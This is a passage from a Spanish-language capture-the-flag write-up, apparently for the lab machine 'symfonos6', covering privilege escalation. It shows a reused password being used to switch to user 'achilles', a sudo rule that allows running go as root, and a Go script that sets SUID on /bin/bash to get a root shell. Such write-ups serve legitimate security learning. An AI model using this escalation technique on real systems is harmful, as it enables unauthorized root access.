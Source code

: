 ~~~ bash
stty rows 44 columns 184
~~~

***
<h3>PrivEsc:</h3>
- A nadie le gusta ser `apache`, así que agradecemos a la reutilización de contraseñas que nos permitirá hacer un `user pivoting` hacia `achilles`

~~~ bash
bash-4.2$ su achilles
Password: h2sBr9gryBunKdF9
bash-4.2$ id
uid=1000(achilles) gid=1000(achilles) groups=1000(achilles),48(apache)
~~~
- Bien, vemos que nuestro usuario es capaz de ejecutar cualquier cosa que se ejecute con `go` como root:
~~~ bash
  bash-4.2$ sudo -l
Matching Defaults entries for achilles on symfonos6:
    !visiblepw, always_set_home, match_group_by_gid, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User achilles may run the following commands on symfonos6:
    (ALL) NOPASSWD: /usr/local/go/bin/go
~~~
- Entonces esto es muy intuitivo, me creé un script en go para ejecutar comandos:
~~~ go
import (
        "fmt"
        "os/exec"
)
func main() {
        cmd := exec.Command("chmod", "u+s", "/bin/bash")
        output, err := cmd.Output()
        if err != nil {
                fmt.Println("Error al ejecutar el comando:", err)
                return
        }
        fmt.Println(string(output))
}
~~~
- Le daremos permisos SUID a `/bin/bash`
- Ejecutamos:
  ~~~ bash
  sudo /usr/local/go/bin/go run exp.go 
  ls -la /bin/bash
  -rwsr-xr-x. 1 root root 964544 Apr 10  2018 /bin/bash
  ~~~
- Vemos que bash ahora es SUID, ejecutamos `/bin/bash -p` y seremos root:
![image](https://github.com/JoseVazquez101/Writteups/assets/111292579/36f1be3e-069e-465e-b0f9-fd49e30da4e9)

